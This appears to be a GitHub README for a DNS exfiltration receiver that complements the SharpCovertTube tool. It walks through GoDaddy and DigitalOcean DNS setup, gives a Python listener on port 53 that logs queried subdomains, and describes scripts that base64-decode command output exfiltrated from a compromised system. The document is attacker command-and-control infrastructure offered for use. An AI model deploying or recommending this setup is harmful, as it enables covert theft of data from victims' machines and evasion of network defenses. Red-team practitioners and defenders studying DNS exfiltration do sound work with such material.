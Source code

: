 # DNS Exfiltration
Notes and custom scripts for DNS exfiltration using DigitalOcean and GoDaddy. This project is a complement for [SharpCovertTube](https://github.com/ricardojoserf/SharpCovertTube), it covers how to receive and decode the DNS exfiltrated data.

-------------------------------------------

### DigitalOcean

Create a project, connect the GoDaddy's domain to it and create a droplet.

![img2b](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2b.png)

Then, add the following DNS records:

- "A" record for your domain, for example "domain.com", pointing to the droplet's IP address.
- "A" record for subdomain "ns" pointing to the droplet's IP address.
- "NS" record for a subdomain, for example "steve", pointing to the droplet's IP address.
   - NOTE: This is the subdomain we will use for DNS exfiltration.
- "NS" record redirecting to ns1.digitalocean.com (if not already in there).
- "NS" record redirecting to ns2.digitalocean.com (if not already in there).
- "NS" record redirecting to ns3.digitalocean.com (if not already in there).

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_3.png)

-------------------------------------------

### GoDaddy

After purchasing a domain in GoDaddy, visit the "DNS Management" section ([https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns](https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns)). You have to add an entry in the "Hostname" subsection, which will contain the host "ns" and will point to your DigitalOcean droplet's IP address:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_1.png)

Then, in "Nameservers" subsection, add the DigitalOcean nameservers if they are not already in there (ns1.digitalocean.com, ns2.digitalocean.com and ns3.digitalocean.com):

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2.png)


-------------------------------------------

### Testing DNS exfiltration

We can now run a Python script to start monitoring DNS queries to the subdomains "*.steve.domain.com": 

```python
import socket
from dnslib import DNSRecord

ns_subdomain = ".steve"

server = socket.socket (socket.AF_INET, socket.SOCK_DGRAM)
server.bind(('0.0.0.0', 53))

while True:
  data, addr = server.recvfrom (4096)
  d = DNSRecord.parse(data)
  subdomain = str(d.questions[0]._qname).split(ns_subdomain)[0]
  print("Subdomain: " + subdomain)
```

It must be run as superuser and the port 53 is probably already in use so first we can stop any process using that port with:

```
fuser -k 53/udp
```

For example, if your domain is "domain.com" and the record added to DigitalOcean is "steve", we could run a DNS query (from any system) to the subdomain "test.steve.domain.com". If everything is correct, we should see an output similar to this: 

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_5.png)

However even with a simple "nslookup test.steve.domain.com" command we will find that there are too many queries and they get repeated, so we will use custom scripts to monitor these DNS queries.

-------------------------------------------

### Custom Scripts

If everything works fine, we can run the custom script dns.py where you can set the subdomain to monitor with the parameter -s and a file to store the program output with the parameter -l:

```
python3 dns.py [-s SUBDOMAIN] [-l LOGFILE]
```

Then, the output can be decoded using the custom script decode.py, where you can set a filter with a list of comma-separated minutes from the log file with the parameter -f and the log file to read from with the parameter -l. The implemented decoding function decodes Base64 but you can change it depending on how you encode the exfiltrated data:

```
python3 decode.py -f FILTER_MINUTES -l LOGFILE
```

As an example, I run the [SharpCovertTube](https://github.com/ricardojoserf/SharpCovertTube) program which exfiltrates the command output from the compromised system via DNS, generating several queries:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_6.png)

These queries are received by dns.py, which is monitoring the subdomains "*.steve.domain.com", and get stored in the file log.txt:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_7.png)

Then we can Base64-decode the DNS queries received in the minute 11:08 and stored in log.txt:

![img8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_8.png)


------------------------

### Sources

For the DigitalOcean and GoDaddy set up I used mostly John Woodman's research:

- [https://john-woodman.com/research/dns-exfiltration-setup/](https://john-woodman.com/research/dns-exfiltration-setup/)
